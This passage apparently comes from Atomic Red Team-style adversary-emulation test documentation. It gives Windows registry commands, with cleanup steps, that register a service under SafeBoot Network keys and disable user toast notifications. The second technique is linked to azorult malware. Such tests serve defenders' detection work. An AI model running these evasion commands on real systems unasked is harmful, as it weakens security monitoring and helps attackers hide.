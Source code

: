 **Supported Platforms:** Windows


**auto_generated_guid:** c173c948-65e5-499c-afbe-433722ed5bd4






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\SafeBoot\Network\AtomicSafeMode" /VE /T REG_SZ /F /D "Service"
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\SafeBoot\Network\AtomicSafeMode" /f
```





<br/>
<br/>

## Atomic Test #36 - Disable Windows Toast Notifications
Modify the registry of the currently logged in user using reg.exe via cmd console to disable the windows toast notification.
See how azorult malware abuses this technique- https://app.any.run/tasks/a6f2ffe2-e6e2-4396-ae2e-04ea0143f2d8/

**Supported Platforms:** Windows


**auto_generated_guid:** 003f466a-6010-4b15-803a-cbb478a314d7






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\PushNotifications /v ToastEnabled /t REG_DWORD /d 0 /f
```

#### Cleanup Commands:
```cmd
reg delete HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\PushNotifications /v ToastEnabled /f >nul 2>&1
```


